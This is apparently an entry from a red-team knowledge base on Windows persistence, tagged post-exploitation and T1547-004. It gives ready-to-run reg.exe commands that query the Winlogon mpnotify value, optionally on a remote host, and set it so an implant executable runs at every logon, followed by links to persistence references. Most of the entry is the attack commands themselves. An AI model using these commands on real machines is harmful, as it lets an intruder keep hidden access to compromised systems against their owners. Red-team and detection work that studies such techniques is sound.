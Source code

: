 ```yaml
---
author(s):
  - Userware
tags:
  - post-exploitation
  - maintaining-access
  - persistence
  - living-off-the-land
  - T1547-004
  - windows
---
```

# WinLogon

## 01 - Command Prompt

```
C:\> reg.exe query "[\\<IP>\]HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon" /v mpnotify
```

```
C:\> reg.exe add "[\\<IP>\]HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon" /t REG_SZ /v mpnotify /d "C:\path\to\implant.exe" /f
```

---
## References

### Backlinks

- [[03 - Malware Development/Global Helpers/Persistence/Windows/Autostart Locations]]

### Persistence Info

- [Persistence Info: MPNotify](https://persistence-info.github.io/Data/mpnotify.html)

### Red Team Notes

- [Red Team Notes: Windows Logon Helper](https://www.ired.team/offensive-security/persistence/windows-logon-helper)
